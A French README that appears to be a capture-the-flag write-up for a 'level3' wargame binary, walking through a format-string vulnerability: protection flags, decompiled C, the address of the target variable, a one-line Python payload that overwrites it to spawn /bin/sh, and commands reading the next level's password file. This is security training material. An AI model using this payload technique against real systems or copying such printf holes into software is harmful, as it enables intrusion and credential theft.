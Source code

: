 ### README - Exploitation du programme `level3`

## Introduction

Nous avons un exécutable `level3` avec les options suivantes :

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

Lorsque nous l'exécutons, il lit l'entrée standard, l'affiche, puis quitte.

## Code Source Décompilé

Voici le code source décompilé du programme `level3` :

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if (m == 64) {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
// 804988C: using guessed type int m;

int __cdecl main(int argc, const char **argv, const char **envp) {
  return v();
}
```

## Analyse et Identification de la Vulnérabilité

La fonction `v()` utilise `fgets` pour lire l'entrée utilisateur dans un buffer, et `printf` pour afficher cette entrée. Cela rend le programme vulnérable aux attaques de format string.

La condition pour exécuter un shell est que la variable `m` soit égale à 64. En exploitant la vulnérabilité de chaîne de format, nous pouvons écrire la valeur 64 à l'adresse de `m`.

### Adresse de la variable `m`

L'adresse de la variable `m` est : `0x0804988c`.

## Exploitation de la Vulnérabilité

Nous allons utiliser une chaîne de format pour écrire la valeur 64 à l'adresse de `m`, puis déclencher l'exécution de `/bin/sh`.

### Construction du Payload

Le payload sera constitué de l'adresse de `m` suivie de la chaîne de format qui écrira la valeur 64.

### Génération du Payload

Utilisez la commande suivante pour générer et exécuter le payload :

```bash
(python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")'; cat -) | ./level3
```

### Vérification

Après l'exploitation, nous devrions obtenir un shell :

```bash
whoami
level4
cat /home/user/level4/.pass
```

## Explication des Étapes

1. **Utilisation de la chaîne de format** :
   - La chaîne de format `%60x` remplit l'espace pour atteindre 64 caractères.
   - Le spécificateur `%4$n` écrit le nombre de caractères imprimés (64) à l'adresse de `m` fournie.

2. **Construction du Payload** :
   - Nous incluons l'adresse de `m` en little-endian, puis la chaîne de format pour écrire `64` à cette adresse.

3. **Exécution du Payload** :
   - Le payload est envoyé au programme `level3`, modifiant la valeur de `m` et déclenchant l'exécution de `/bin/sh`.

## Conclusion

En exploitant la vulnérabilité de chaîne de format, nous avons modifié la variable `m` pour obtenir un shell avec les privilèges de `level4`. Cette approche a permis de contourner les protections et de lire le flag pour le niveau suivant.

Level3 passé avec succès !